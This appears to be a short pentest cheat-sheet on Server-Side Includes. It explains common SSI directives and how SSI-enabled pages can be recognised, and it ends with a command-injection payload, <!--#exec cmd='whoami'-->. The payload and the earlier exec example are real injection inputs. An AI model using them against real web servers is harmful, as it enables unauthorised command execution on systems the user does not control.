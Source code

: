 Server-side includes (SSI) is a technology used by web applications to create dynamic content on HTML pages 
before loading or during the rendering process by evaluating SSI directives. 
Some SSI directives are:
```bash
// Date
<!--#echo var="DATE_LOCAL" -->

// Modification date of a file
<!--#flastmod file="index.html" -->

// CGI Program results
<!--#include virtual="/cgi-bin/counter.pl" -->

// Including a footer
<!--#include virtual="/footer.html" -->

// Executing commands
<!--#exec cmd="ls" -->

// Setting variables
<!--#set var="name" value="Rich" -->

// Including virtual files (same directory)
<!--#include virtual="file_to_include.html" -->

// Including files (same directory)
<!--#include file="file_to_include.html" -->

// Print all variables
<!--#printenv -->
```
The use of SSI on a web application can be identified by checking for extensions such as .shtml, .shtm, or .stm. 
That said, non-default server configurations exist that could allow other extensions (such as .html) to process SSI directives.

Command injection:
```bash
<!--#exec cmd="whoami" -->
```
